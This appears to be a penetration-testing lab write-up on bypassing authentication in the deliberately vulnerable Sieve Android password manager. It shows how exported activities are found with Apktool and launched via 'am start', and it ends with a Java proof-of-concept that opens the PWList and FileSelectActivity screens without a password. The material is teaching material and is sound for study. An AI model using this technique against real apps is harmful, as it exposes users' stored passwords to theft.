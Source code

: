 # Authentication Bypass (Exported Activity Hacking )

1. **Retrieve the APK File**: Obtain the target APK file that you want to analyze.&#x20;

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

1.  **Install APK on the Android Emulator**

    &#x20;

    <figure><img src="../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
2.  **Decompile APK using Apktool**

    <figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>
3.  **Decode APK Contents**

    <figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>
4.  **Analyze** `AndroidManifest.xml`: Investigate the `AndroidManifest.xml` file to identify declared activities and their associated permissions, Notice that there is exported Activities.

    <figure><img src="../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>
5.  **Exploration of Application Features**: Launch the application on the emulator to interact with its functionalities, Notice it is simple password manageer.

    <figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>
6.  **Identify Authentication Requirements**: Note any authentication mechanisms required by the application, such as password length or two-factor authentication (2FA) PIN.

    <figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>
7.  **Access Password List Activity**: Discover the Password List Activity mentioned in the `AndroidManifest` file, where passwords and account details are managed&#x20;

    <figure><img src="../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>
8.  **Attempt to Access Exported Activities**: Use the Activity Manager (am start -n ) to try accessing exported activities from outside the application

    <figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>
9. **Investigate Potential Data Storage Locations**: Start file list activity and searching for any data leakage, but found nothing + i couldn't access other activities from there.
10. **Access Password List Activity**: Successfully access the Password List Activity from outside the application

    <figure><img src="../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>
11. **Encounter Error Messages**: Encounter error messages when attempting to view or modify passwords due to a required service not being started.&#x20;

    <figure><img src="../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>
12. **Examine Settings and Backup Options**: Investigate settings options within the application to create backups of passwords
13. **Discover Backup File Accessibility**: Find that backup files can be accessed via another exported activity, `com.mwr.example.sieve/.FileSelectActivity`


14. **Identify Security Vulnerability**: Realize that plaintext passwords are accessible without authentication, potentially exposing users to password theft through malicious apps.

    <figure><img src="../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>
15. Example code for Exploit POC

```java
import android.content.Intent;
import android.os.Bundle;
import android.support.v7.app.AppCompatActivity;
import android.view.View;
import android.widget.Button;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Button to start FileSelectActivity
        Button fileSelectButton = findViewById(R.id.file_select_button);
        fileSelectButton.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                // Create an Intent to start the FileSelectActivity
                Intent intent = new Intent();
                intent.setClassName("com.mwr.example.sieve", "com.mwr.example.sieve.FileSelectActivity");
                startActivity(intent);
            }
        });

        // Button to start PWList Activity
        Button pwListButton = findViewById(R.id.pw_list_button);
        pwListButton.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                // Create an Intent to start the PWList Activity
                Intent intent = new Intent();
                intent.setClassName("com.mwr.example.sieve", "com.mwr.example.sieve.PWList");
                startActivity(intent);
            }
        });
    }
}
```
